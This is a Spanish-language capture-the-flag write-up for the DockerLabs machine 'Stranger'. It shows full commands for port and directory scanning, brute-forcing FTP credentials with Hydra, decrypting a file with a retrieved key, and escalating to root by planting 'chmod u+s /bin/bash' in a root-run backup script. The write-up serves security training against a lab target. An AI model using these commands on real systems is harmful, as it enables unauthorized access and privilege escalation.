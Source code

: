 # Máquina Stranger

Enlace a la máquina -> [Dockerlabs](https://mega.nz/file/VDtF0D4Q#NqCgaMcTlVPPm2FpUO3-0E50yxCzqpL2imaXpNIifpU)

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/6c5983bd-049a-4a6e-ad43-9dfa3fb1bfa3)

- **Nombre de la Máquina:** Stranger
- **Sistema Operativo:** Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
  - Fuerza bruta de credenciales FTP utilizando Hydra.
  - Desencriptación de archivo usando OpenSSL.
  - Manipulación de script de backup ejecutado por root.

## Reconocimiento y Enumeración

Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para identificar los puertos abiertos.

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/3b9e9779-436a-4c0e-bd98-5fe89714ce44)

Nos reporta los puertos 21, 22 y 80. Realizamos un escaneo más exhaustivo para ver qué servicios corren en cada puerto.

```bash
sudo nmap -p -p 21,22,80 -sCV 172.17.0.2 -oN targeted.txt
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/aeaa0e46-7aee-4b90-b7e8-121a713d61e6)

Como podemos extraer del reporte de nmap, disponemos de los servicios FTP, SSH y Apache.

En el puerto 80, vemos la página por defecto de Apache.

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/0a7eedef-66ff-4211-8d6d-16063f1e4fca)

Realizamos una búsqueda de directorios para encontrar elementos interesantes y hallamos un `index.html` y un directorio `/strange`. En `index.html` encontramos un posible nombre de usuario: **mwheeler**.

```bash
sudo gobuster dir -u 'http://172.17.0.2/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/230abae8-54aa-4668-bb54-76292ada4d4d)
![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/f1f0cc27-d4a0-4e09-856b-dcc9d4ef2105)

Continuamos investigando el directorio `/strange` sin encontrar nada relevante.

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/f365c091-aaf4-43eb-84a8-1905b59e7afc)

Procedemos a buscar archivos o más directorios dentro de `/strange` y encontramos dos elementos interesantes: `secret.html` y `private.txt`.

```bash
sudo gobuster dir -u 'http://172.17.0.2/strange' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php,html,txt
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/e24e320f-723c-475a-b7db-25c031e12230)

En `secret.html` encontramos un mensaje que indica que el usuario **admin** corresponde al FTP y que la contraseña debe encontrarse mediante fuerza bruta, sugiriendo el uso de Hydra.

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/90388f49-1486-4d3c-a7ba-0620464c41f8)

El archivo `private.txt` parece estar encriptado, ya que el comando `file` no lo reporta como ASCII, sino como datos.

```bash
file private.txt
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/250b9e27-b8b6-4802-b1bf-c902671b6c67)

## Fuerza Bruta con Hydra

Para realizar el ataque de fuerza bruta, utilizamos el siguiente comando con el diccionario rockyou:

```bash
hydra -l "admin" -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ftp -t 64
```

Nos encuentra la contraseña:
- **Nombre:** admin
- **Contraseña:** banana

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/88b89ed1-7b76-44bf-b4f3-44408c61ea94)

## FTP

Iniciamos sesión en el FTP con las credenciales descubiertas y vemos un archivo llamado `private_key.pem`. Lo descargamos para investigarlo.

```bash
ftp 172.17.0.2
admin
banana
get private_key.pem
exit
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/92ef8c51-a378-42b8-a058-1a48b320982c)

## Desencriptar con OpenSSL

Tenemos un archivo `.pem` y un texto cifrado dentro de `private.txt`. Para desencriptarlo, usamos el siguiente comando de OpenSSL:

```bash
openssl pkeyutl -decrypt -inkey private_key.pem -in private.txt -out privateOUT.txt
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/09a364f7-6257-4530-bb12-c1518af96e44)

La clave desencriptada es **demogorgon**.

## Intrusión vía SSH

Con el usuario (**mwheeler**) y la posible contraseña (**demogorgon**), intentamos acceder vía SSH a la máquina víctima.

```bash
ssh mwheeler@172.17.0.2
demogorgon
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/dd6e0a2d-a1ec-46a6-80cd-b0cc5974946c)

## Escalada de Privilegios

Una vez dentro, intentamos buscar maneras de escalar privilegios a root. Al ejecutar `sudo -l`, vemos que no tenemos permisos sudo. Intentamos buscar binarios con permisos SUID sin éxito. Enumerando el sistema, notamos que **root** ejecuta un script en bash cada cierto tiempo.

```bash
ps -aux
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/b35e7f0f-f8af-4c28-8c85-b92a3ff31530)

Verificamos que tenemos permisos de escritura en el script específico.

```bash
ls -l /usr/local/bin/
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/7d371e06-3e58-4330-a2b4-f7afdfbdbb9f)

Añadimos el comando `chmod u+s /bin/bash` al script para que cuando root lo ejecute, nos proporcione permisos SUID en bash.

```bash
vim /usr/local/bin/backup.sh
chmod u+s /bin/bash
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/c6ce1e63-4bbd-4ca0-8d51-cc45f3f98d46)
![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/3ea6cedc-6ffc-4ad1-a707-e2a53edb7814)

Finalmente, elevamos nuestros privilegios a root ejecutando el siguiente comando:

```bash
bash -p
```

![imagen](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/5a872791-28da-43a5-abfa-93aff8e11e01)

¡Y hemos finalizado la máquina, incluyendo la captura de la flag!

